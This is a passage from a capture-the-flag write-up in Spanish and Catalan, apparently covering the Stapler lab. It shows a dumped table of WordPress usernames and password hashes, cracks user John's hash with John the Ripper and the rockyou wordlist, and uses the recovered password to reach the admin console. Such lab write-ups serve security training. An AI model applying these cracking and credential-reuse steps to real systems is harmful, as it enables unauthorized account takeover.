 ```bash
| heather    | $P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 |
| garry      | $P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1 |
| harry      | $P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0 |
| scott      | $P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1 |
| kathy      | $P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0 |
| tim        | $P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0 |
| ZOE        | $P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1 |
| Dave       | $P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy. |
| Simon      | $P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0 |
| Abby       | $P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs. |
| Vicki      | $P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131 |
| Pam        | $P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0 |
+------------+------------------------------------+
16 rows in set (0.002 sec)

```

### Una vez tengo todos los usuarios y sus hashes, procedo a crear un fichero para añadirlo a john_hash.txt.
```bash

┌──(kali㉿kali)-[~/stapler]
└─$ nano john_hash.txt
```
### Des pues de crear el fichero con el nombre de john y el hash de su contraseña procedo a crackear el hash:
```bash
┌──(kali㉿kali)-[~/stapler]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt john_hash.txt
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
incorrect        (John)     
1g 0:00:00:06 DONE (2024-03-02 05:21) 0.1479g/s 27351p/s 27351c/s 27351C/s ireland4..iloveaj2
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                                                                        
┌──(kali㉿kali)-[~/stapler]
└─$ john --show --format=phpass john_hash.txt

John:incorrect

1 password hash cracked, 0 left
```


Ara tenim les credencials d’inici de sessió d’un usuari de WordPress que creiem que és administrador. Podem intentar iniciar la sessió al WordPress com John mitjançant la contrasenya.

https://192.168.1.203:12380/blogblog/wp-login.php
usuario john
contrasena: incorrect
Con estas credenciales puedo acceder a la consola de admin sin problemas
